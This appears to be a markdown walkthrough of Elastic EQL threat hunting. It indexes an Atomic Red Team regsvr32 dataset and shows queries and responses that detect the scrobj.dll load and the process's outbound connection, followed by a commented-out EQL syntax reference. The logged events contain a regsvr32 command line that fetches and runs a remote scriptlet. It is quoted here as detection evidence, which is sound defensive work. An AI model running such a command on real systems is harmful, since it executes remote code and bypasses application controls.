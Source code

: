 ### Example: Detect threats with EQL

See [Example: Detect threats with EQL](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/eql-ex-threat-detection.html)
See [EQL syntax reference](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/eql-syntax.html)

#### Setup

To get started:

1. Create an [index template](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/index-templates.html) with [data stream enabled](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/set-up-a-data-stream.html#create-index-template)

```json

PUT /_index_template/my-data-stream-template
{
  "index_patterns": [ "my-data-stream*" ],
  "data_stream": { },
  "priority": 500
}

```

2. Use the [bulk API](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/docs-bulk.html) to index the data to a matching stream:

```json

curl -XPOST "localhost:9200/my-data-stream/_bulk?pretty&refresh" -s -u elastic:changeme -H 'Content-Type: application/x-ndjson' --data-binary "@dataset/normalized-T1117-AtomicRed-regsvr32.json"

```

3. Use the [cat indices API](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/cat-indices.html) to verify the data was indexed:

```json

GET /_cat/indices/my-data-stream?v=true&h=health,status,index,docs.count

```

#### Get a count of regsvr32 events

```json

GET /my-data-stream/_eql/search?filter_path=-hits.events    
{
  "query": """
    any where process.name == "regsvr32.exe"                
  """,
  "size": 200                                               
}

```

<details>
  <summary>Response:</summary>

```json

{
  "is_partial" : false,
  "is_running" : false,
  "took" : 1,
  "timed_out" : false,
  "hits" : {
    "total" : {
      "value" : 143,
      "relation" : "eq"
    }
  }
}

```

</details>


#### Check for command line artifacts

```json

GET my-data-stream/_eql/search?filter_path=hits.events
{
  "query": """
    any where process.name == "regsvr32.exe" and  process.command_line.keyword !=null
  """,
  "size": 200
}

```

<details>
  <summary>Response:</summary>

```json

{
  "hits" : {
    "events" : [
      {
        "_index" : ".ds-my-data-stream-2023.04.28-000001",
        "_id" : "9v9YxocBJz9yVPk--OPB",
        "_source" : {
          "process" : {
            "parent" : {
              "name" : "cmd.exe",
              "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable" : """C:\Windows\System32\cmd.exe"""
            },
            "name" : "regsvr32.exe",
            "pid" : 2012,
            "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line" : "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable" : """C:\Windows\System32\regsvr32.exe""",
            "ppid" : 2652
          },
          "logon_id" : 217055,
          "@timestamp" : 131883573237130000,
          "event" : {
            "category" : "process",
            "type" : "creation"
          },
          "user" : {
            "full_name" : "bob",
            "domain" : "ART-DESKTOP",
            "id" : """ART-DESKTOP\bob"""
          }
        }
      }
    ]
  }
}

```

</details>

#### Check for malicious script loads

Check if regsvr32.exe later loads the scrobj.dll library:

```json

GET /my-data-stream/_eql/search
{
  "query": """
    any where process.name == "regsvr32.exe"  and dll.name == "scrobj.dll"              
  """
}

```

<details>
  <summary>Response:</summary>

```json

{
  "is_partial" : false,
  "is_running" : false,
  "took" : 1,
  "timed_out" : false,
  "hits" : {
    "total" : {
      "value" : 1,
      "relation" : "eq"
    },
    "events" : [
      {
        "_index" : ".ds-my-data-stream-2023.04.28-000001",
        "_id" : "Fv9YxocBJz9yVPk--OTC",
        "_source" : {
          "process" : {
            "name" : "regsvr32.exe",
            "pid" : 2012,
            "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable" : """C:\Windows\System32\regsvr32.exe"""
          },
          "dll" : {
            "path" : """C:\Windows\System32\scrobj.dll""",
            "name" : "scrobj.dll"
          },
          "@timestamp" : 131883573237450016,
          "event" : {
            "category" : "library"
          }
        }
      }
    ]
  }
}

```

</details>

#### Determine the likelihood of success

heck for the following series of events:

1. A regsvr32.exe process
2. A load of the scrobj.dll library by the same process
3. Any network event by the same process

```json

GET /my-data-stream/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe" ]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}

```

<details>
  <summary>Response:</summary>

```json

{
  "is_partial" : false,
  "is_running" : false,
  "took" : 34,
  "timed_out" : false,
  "hits" : {
    "total" : {
      "value" : 1,
      "relation" : "eq"
    },
    "sequences" : [
      {
        "join_keys" : [
          2012
        ],
        "events" : [
          {
            "_index" : ".ds-my-data-stream-2023.04.28-000001",
            "_id" : "9v9YxocBJz9yVPk--OPB",
            "_source" : {
              "process" : {
                "parent" : {
                  "name" : "cmd.exe",
                  "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable" : """C:\Windows\System32\cmd.exe"""
                },
                "name" : "regsvr32.exe",
                "pid" : 2012,
                "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line" : "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable" : """C:\Windows\System32\regsvr32.exe""",
                "ppid" : 2652
              },
              "logon_id" : 217055,
              "@timestamp" : 131883573237130000,
              "event" : {
                "category" : "process",
                "type" : "creation"
              },
              "user" : {
                "full_name" : "bob",
                "domain" : "ART-DESKTOP",
                "id" : """ART-DESKTOP\bob"""
              }
            }
          },
          {
            "_index" : ".ds-my-data-stream-2023.04.28-000001",
            "_id" : "Fv9YxocBJz9yVPk--OTC",
            "_source" : {
              "process" : {
                "name" : "regsvr32.exe",
                "pid" : 2012,
                "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable" : """C:\Windows\System32\regsvr32.exe"""
              },
              "dll" : {
                "path" : """C:\Windows\System32\scrobj.dll""",
                "name" : "scrobj.dll"
              },
              "@timestamp" : 131883573237450016,
              "event" : {
                "category" : "library"
              }
            }
          },
          {
            "_index" : ".ds-my-data-stream-2023.04.28-000001",
            "_id" : "hP9YxocBJz9yVPk--OTC",
            "_source" : {
              "process" : {
                "name" : "regsvr32.exe",
                "pid" : 2012,
                "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable" : """C:\Windows\System32\regsvr32.exe"""
              },
              "destination" : {
                "address" : "151.101.48.133",
                "port" : "443"
              },
              "source" : {
                "address" : "192.168.162.134",
                "port" : "50505"
              },
              "network" : {
                "direction" : "outbound",
                "protocol" : "tcp"
              },
              "@timestamp" : 131883573238680000,
              "event" : {
                "category" : "network"
              },
              "user" : {
                "full_name" : "bob",
                "domain" : "ART-DESKTOP",
                "id" : """ART-DESKTOP\bob"""
              }
            }
          }
        ]
      }
    ]
  }
}

```

</details>

<!--

##### Basic syntax

EQL queries require an event category and a matching condition. The where keyword connects them.

```
event_category where condition

```

An event category is an indexed value of the event category field. By default, the EQL search API uses the event.category field from the Elastic Common Schema (ECS). You can specify another event category field using the API’s event_category_field parameter.

For example, the following EQL query matches events with an event category of process and a process.name of svchost.exe:

```
process where process.name == "svchost.exe"

```

##### Match any event category

For example, the following EQL query matches any documents with a network.protocol field value of http:

```
any where network.protocol == "http"
```

##### Escape an event category

Use enclosing double quotes (") or three enclosing double quotes (""") to escape event categories that:

- Contain a special character, such as a hyphen (-) or dot (.)
- Contain a space
- Start with a numeral

```

".my.event.category"
"my-event-category"
"my event category"
"6eventcategory"

""".my.event.category"""
"""my-event-category"""
"""my event category"""
"""6eventcategory"""

```

##### Escape a field name

Use enclosing backticks (`) to escape field names that:

- Contain a hyphen (-)
- Contain a space
- Start with a numeral

```

`my-field`
`my field`
`6myfield`

```

Use double backticks (``) to escape any backticks (`) in the field name.

```

my`field -> `my``field`

```

##### Conditions

A condition consists of one or more criteria an event must match. You can specify and combine these criteria using the following operators. Most EQL operators are case-sensitive by default.

Comparison operators

```

<   <=   ==   :   !=   >=   >

```

```

< (less than)
<= (less than or equal)
== (equal, case-sensitive)
: (equal, case-insensitive)
!= (not equal, case-sensitive)
>= (greater than or equal)
> (greater than)

```

##### Pattern comparison keyword

```

my_field like  "VALUE*"         // case-sensitive wildcard matching
my_field like~ "value*"         // case-insensitive wildcard matching

my_field regex  "VALUE[^Z].?"   // case-sensitive regex matching
my_field regex~ "value[^z].?"   // case-insensitive regex matching

```

- like (case-sensitive)
Returns true if the string to the left of the keyword matches a wildcard pattern to the right. Supports list lookups. Can only be used to compare strings. For case-insensitive matching, use like~.

- regex (case-sensitive)
Returns true if the string to the left of the keyword matches a regular expression to the right. For supported regular expression syntax, see Regular expression syntax. Supports list lookups. Can only be used to compare strings. For case-insensitive matching, use regex~.


example:

The following EQL query compares the process.parent_name field value to a static value, foo. This comparison is supported.

However, the query also compares the process.parent.name field value to the process.name field. This comparison is not supported and will return an error for the entire query.

```
process where process.parent.name == "foo" and process.parent.name == process.name

```

Instead, you can rewrite the query to compare both the process.parent.name and process.name fields to static values.

```
process where process.parent.name == "foo" and process.name == "foo"

```

##### Logical operators

```

and  or  not

```

- and: Returns true only if the condition to the left and right both return true. Otherwise returns false.
- or:  Returns true if one of the conditions to the left or right true. Otherwise returns false.
- not: Returns true if the condition to the right is false.


##### Lookup operators

```

my_field in ("Value-1", "VALUE2", "VAL3")                 // case-sensitive
my_field in~ ("value-1", "value2", "val3")                // case-insensitive

my_field not in ("Value-1", "VALUE2", "VAL3")             // case-sensitive
my_field not in~ ("value-1", "value2", "val3")            // case-insensitive

my_field : ("value-1", "value2", "val3")                  // case-insensitive

my_field like  ("Value-*", "VALUE2", "VAL?")              // case-sensitive
my_field like~ ("value-*", "value2", "val?")              // case-insensitive

my_field regex  ("[vV]alue-[0-9]", "VALUE[^2].?", "VAL3") // case-sensitive
my_field regex~  ("value-[0-9]", "value[^2].?", "val3")   // case-sensitive

```

- in (case-sensitive)
Returns true if the value is contained in the provided list. For case-insensitive matching, use in~.
- not in (case-sensitive)
Returns true if the value is not contained in the provided list. For case-insensitive matching, use not in~.
- : (case-insensitive)
Returns true if the string is contained in the provided list. Can only be used to compare strings.
- like (case-sensitive)
Returns true if the string matches a wildcard pattern in the provided list. Can only be used to compare strings. For case-insensitive matching, use like~.
- regex (case-sensitive)
Returns true if the string matches a regular expression pattern in the provided list. For supported regular expression syntax, see Regular expression syntax. Can only be used to compare strings. For case-insensitive matching, use regex~.


##### Math operators

```
+  -  *  /  %

```

- + (add)
Adds the values to the left and right of the operator.
- - (subtract)
Subtracts the value to the right of the operator from the value to the left.
- * (multiply)
Multiplies the values to the left and right of the operator.
- / (divide)
Divides the value to the left of the operator by the value to the right.
- % (modulo)
Divides the value to the left of the operator by the value to the right. Returns only the remainder.

##### Match any condition

To match events solely on event category, use the where true condition.

For example, the following EQL query matches any file events:

```

file where true

```

To match any event, you can combine the any keyword with the where true condition:

```

any where true

```

##### Optional fields

By default, an EQL query can only contain fields that exist in the dataset you’re searching. A field exists in a dataset if it has an explicit, dynamic, or runtime mapping. If an EQL query contains a field that doesn’t exist, it returns an error.

If you aren’t sure if a field exists in a dataset, use the ? operator to mark the field as optional. If an optional field doesn’t exist, the query replaces it with null instead of returning an error.

Example

In the following query, the user.id field is optional.

```

network where ?user.id != null

```

If the user.id field exists in the dataset you’re searching, the query matches any network event that contains a user.id value. If the user.id field doesn’t exist in the dataset, EQL interprets the query as:

```

network where null != null

```

In this case, the query matches no events.

##### Check if a field exists

To match events containing any value for a field, compare the field to null using the != operator:

```

?my_field != null

```

To match events that do not contain a field value, compare the field to null using the == operator:

```

?my_field == null

```

##### Strings

Strings are enclosed in double quotes (").

```

"hello world"

```

Strings enclosed in single quotes (') are not supported.

##### Escape characters in a string

When used within a string, special characters, such as a carriage return or double quote ("), must be escaped with a preceding backslash (\).

```

"example \r of \" escaped \n characters"

```

##### Raw strings

Raw strings treat special characters, such as backslashes (\), as literal characters. Raw strings are enclosed in three double quotes (""").

```

"""Raw string with a literal double quote " and blackslash \ included"""

```

A raw string cannot contain three consecutive double quotes ("""). Instead, use a regular string with the \" escape sequence.

```

"String containing \"\"\" three double quotes"

```

##### Wildcards

For string comparisons using the : operator or like keyword, you can use the * and ? wildcards to match specific patterns. The * wildcard matches zero or more characters:

```

my_field : "doc*"     // Matches "doc", "docs", or "document" but not "DOS"
my_field : "*doc"     // Matches "adoc" or "asciidoc"
my_field : "d*c"      // Matches "doc" or "disc"

my_field like "DOC*"  // Matches "DOC", "DOCS", "DOCs", or "DOCUMENT" but not "DOS"
my_field like "D*C"   // Matches "DOC", "DISC", or "DisC"

```

The ? wildcard matches exactly one character:

```

my_field : "doc?"     // Matches "docs" but not "doc", "document", or "DOS"
my_field : "?doc"     // Matches "adoc" but not "asciidoc"
my_field : "d?c"      // Matches "doc" but not "disc"

my_field like "DOC?"  // Matches "DOCS" or "DOCs" but not "DOC", "DOCUMENT", or "DOS"
my_field like "D?c"   // Matches "DOC" but not "DISC"

```

The : operator and like keyword also support wildcards in list lookups:

```

my_field : ("doc*", "f*o", "ba?", "qux")
my_field like ("Doc*", "F*O", "BA?", "QUX")

```

##### Sequences

You can use EQL sequences to describe and match an ordered series of events. Each item in a sequence is an event category and event condition, surrounded by square brackets ([ ]). Events are listed in ascending chronological order, with the most recent event listed last.

```

sequence
  [ event_category_1 where condition_1 ]
  [ event_category_2 where condition_2 ]
  ...
  
```

The following EQL sequence query matches this series of ordered events:

1. Start with an event with:

  - An event category of file
  - A file.extension of exe

2. Followed by an event with an event category of process

```

sequence
  [ file where file.extension == "exe" ]
  [ process where true ]

```

**With maxspan statement**

You can use with maxspan to constrain a sequence to a specified timespan. All events in a matching sequence must occur within this duration, starting at the first event’s timestamp. maxspan accepts time value arguments.

```

sequence with maxspan=30s
  [ event_category_1 where condition_1 ] by field_baz
  [ event_category_2 where condition_2 ] by field_bar
  ...

```

The following sequence query uses a maxspan value of 15m (15 minutes). Events in a matching sequence must occur within 15 minutes of the first event’s timestamp.

```
sequence with maxspan=15m
  [ file where file.extension == "exe" ]
  [ process where true ]

```

**by keyword**

Use the by keyword in a sequence query to only match events that share the same values, even if those values are in different fields. These shared values are called join keys. If a join key should be in the same field across all events, use sequence by.

```
sequence by field_foo
  [ event_category_1 where condition_1 ] by field_baz
  [ event_category_2 where condition_2 ] by field_bar
  ...

```

The following sequence query uses the by keyword to constrain matching events to:

- Events with the same user.name value
- file events with a file.path value equal to the following process event’s process.executable value.

```

sequence
  [ file where file.extension == "exe" ] by user.name, file.path
  [ process where true ] by user.name, process.executable

```

Because the user.name field is shared across all events in the sequence, it can be included using sequence by. The following sequence is equivalent to the prior one.

```

sequence by user.name
  [ file where file.extension == "exe" ] by file.path
  [ process where true ] by process.executable

```

You can combine sequence by and with maxspan to constrain a sequence by both field values and a timespan.

```
sequence by field_foo with maxspan=30s
  [ event_category_1 where condition_1 ]
  [ event_category_2 where condition_2 ]
  ...

```

The following sequence query uses sequence by and with maxspan to only match a sequence of events that:

- Share the same user.name field values
- Occur within 15m (15 minutes) of the first matching event

```

sequence by user.name with maxspan=15m
  [ file where file.extension == "exe" ]
  [ process where true ]

```
##### Optional by fields

By default, a join key must be a non-null field value. To allow null join keys, use the ? operator to mark the by field as optional. This is also helpful if you aren’t sure the dataset you’re searching contains the by field.

Example

The following sequence query uses sequence by to constrain matching events to:

- Events with the same process.pid value, excluding null values. If the process.pid field doesn’t exist in the dataset you’re searching, the query returns an error.
- Events with the same process.entity_id value, including null values. If an event doesn’t contain the process.entity_id field, its process.entity_id value is considered null. This applies even if the process.pid field doesn’t exist in the dataset you’re searching.

```

sequence by process.pid, ?process.entity_id
  [process where process.name == "regsvr32.exe"]
  [network where true]

```

##### until keyword

You can use the until keyword to specify an expiration event for a sequence. If this expiration event occurs between matching events in a sequence, the sequence expires and is not considered a match. If the expiration event occurs after matching events in a sequence, the sequence is still considered a match. The expiration event is not included in the results.

```
sequence
  [ event_category_1 where condition_1 ]
  [ event_category_2 where condition_2 ]
  ...
until [ event_category_3 where condition_3 ]
```

Example

A dataset contains the following event sequences, grouped by shared IDs:

```
A, B
A, B, C
A, C, B
```

The following EQL query searches the dataset for sequences containing event A followed by event B. Event C is used as an expiration event.

```
sequence by ID
  A
  B
until C
```

The query matches sequences A, B and A, B, C but not A, C, B.

##### with runs statement

Use a with runs statement to run the same event criteria successively within a sequence query. For example:

```
sequence
  [ process where event.type == "creation" ]
  [ library where process.name == "regsvr32.exe" ] with runs=3
  [ registry where true ]
```

is equivalent to:

```
sequence
  [ process where event.type == "creation" ]
  [ library where process.name == "regsvr32.exe" ]
  [ library where process.name == "regsvr32.exe" ]
  [ library where process.name == "regsvr32.exe" ]
  [ registry where true ]
```

The runs value must be between 1 and 100 (inclusive).

You can use a with runs statement with the by keyword. For example:

```
sequence
  [ process where event.type == "creation" ] by process.executable
  [ library where process.name == "regsvr32.exe" ] by dll.path with runs=3
```

##### Functions

You can use EQL functions to convert data types, perform math, manipulate strings, and more. For a list of supported functions, see Function reference.

Case-insensitive functions

Most EQL functions are case-sensitive by default. To make a function case-insensitive, use the ~ operator after the function name:

```

stringContains(process.name,".exe")  // Matches ".exe" but not ".EXE" or ".Exe"
stringContains~(process.name,".exe") // Matches ".exe", ".EXE", or ".Exe"

```

How functions impact search performance

Using functions in EQL queries can result in slower search speeds. If you often use functions to transform indexed data, you can speed up search by making these changes during indexing instead. However, that often means slower index speeds.

Example

An index contains the file.path field. file.path contains the full path to a file, including the file extension.

When running EQL searches, users often use the endsWith function with the file.path field to match file extensions:

```

file where endsWith(file.path,".exe") or endsWith(file.path,".dll")

```

While this works, it can be repetitive to write and can slow search speeds. To speed up search, you can do the following instead:

1. Add a new field, file.extension, to the index. The file.extension field will contain only the file extension from the file.path field.

2. Use an ingest pipeline containing the grok processor or another preprocessor tool to extract the file extension from the file.path field before indexing.
Index the extracted file extension to the file.extension field.

3. These changes may slow indexing but allow for faster searches. Users can use the file.extension field instead of multiple endsWith function calls:

```

file where file.extension in ("exe", "dll")

```

We recommend testing and benchmarking any indexing changes before deploying them in production. See Tune for indexing speed and Tune for search speed.

##### Pipes

EQL pipes filter, aggregate, and post-process events returned by an EQL query. 

```
event_category where condition | pipe

authentication where agent.id == 4624
| tail 10

```
-->

